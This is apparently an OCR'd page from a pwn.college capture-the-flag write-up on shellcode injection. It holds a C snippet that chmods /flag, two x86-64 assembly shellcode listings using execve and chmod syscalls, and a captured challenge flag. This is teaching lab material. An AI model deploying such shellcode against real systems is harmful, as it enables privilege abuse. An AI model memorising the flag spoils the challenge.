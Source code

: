 

## 8 - two stage exploit

Quite fun -

Write a small script to cat the flag

```
void main()
{
    chmod("/flag", 4);
}
```

Call it with exeve()

```
  GNU nano 4.8                                                                                        shellcode.s                                                                                                   
.global _start_
_start:
.intel_syntax noprefix
        # Execve syscall
        mov al, 0x3b
        push rax
        mov rdi, rsp 
        xor rsi, rsi
        xor rdx, rdx
        syscall
```

Since the hexcode for the execve syscall is 0x3b as well, we can push $rax and then pop it back in to $rdi as the file-path argument.

credit to https://kunalwalavalkar.gitbook.io/write-ups/pwn-college/shellcode-injection



### 9 - 0xcc interrupts

pwn.college{A5Npi2AV895r-GlDqsVrN8rEDw6.0VNyIDLzITM4UzW}

```
  GNU nano 4.8                                                                                               shellcode.s                                                                                                          
.global _start_
_start:
.intel_syntax noprefix
        push 0x66
        mov rdi, rsp
        push 4
        pop rsi
        jmp next
        .rept 10
        nop
        .endr
/* call chmod() */
next:
        push 0x5a 
        pop rax
        syscall
```
